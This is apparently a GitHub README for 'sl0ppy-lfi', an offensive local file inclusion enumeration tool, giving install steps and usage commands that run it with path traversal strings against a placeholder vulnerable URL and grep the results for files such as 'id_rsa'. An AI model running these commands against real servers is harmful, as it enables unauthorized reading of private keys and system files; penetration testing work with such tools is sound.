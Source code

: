 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encoding! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 


## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the pre-default implemented(read -p), and submit system user when asked for it.

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# Usage sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

# Usage sl0ppy-filter-enc-lfi
./sl0ppy-filter-enc-lfi http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/x0/sl0ppy-lfi/sl0ppy-enc.txt

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

# Usage 
* ./sl0ppy-lfi-fw 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. 
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 1
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 2
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 3
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# !(sum issues in fw, working on fixing it...)
# Usage php://Filther-encoding 
* ./sl0ppy-lfi-fw 
* * option 4 
* enter url when it ask for it like this http://server.vulnerable.com/index.php
